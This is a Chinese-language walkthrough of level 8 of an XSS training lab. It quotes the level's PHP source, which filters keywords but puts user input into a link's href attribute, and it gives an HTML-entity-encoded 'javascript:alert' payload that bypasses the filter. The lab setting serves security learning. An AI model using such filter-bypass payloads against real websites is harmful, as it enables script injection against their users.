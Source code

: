大小写绕过失败

script,on,src,data,href 过滤

但是可以双写绕过

# level8

[https://www.matools.com/code-convert-unicode](https://www.matools.com/code-convert-unicode)

```php
&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#89;&#89;&#68;&#83;&#39;&#41;
```

代码摘要

```php
<?php 
ini_set("display_errors", 0);
$str = strtolower($_GET["keyword"]);
$str2=str_replace("script","scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
$str7=str_replace('"','&quot',$str6);
echo '<center>
<form action=level8.php method=GET>
<input name=keyword  value="'.htmlspecialchars($str).'">
<input type=submit name=submit value=添加友情链接 />
</form>
</center>';
?>
<?php
 echo '<center><BR><a href="'.$str7.'">友情链接</a></center>';
?>
<center><img src=level8.jpg></center>
<?php 
echo "<h3 align=center>payload的长度:".strlen($str7)."</h3>";
?>
```

过滤了很多东西,虽然可以双写绕过

但是又来了一个特殊字符转义

但是后来发现,就算换了一种编码unicode方式

htmlspecialchars也无法绕过

只是说可以绕过str_repalce

所以本levl的漏洞点变处在 `echo '<center><BR><a href="'.$str7.'">友情链接</a></center>';`

所以我们要做的就是绕过strplace
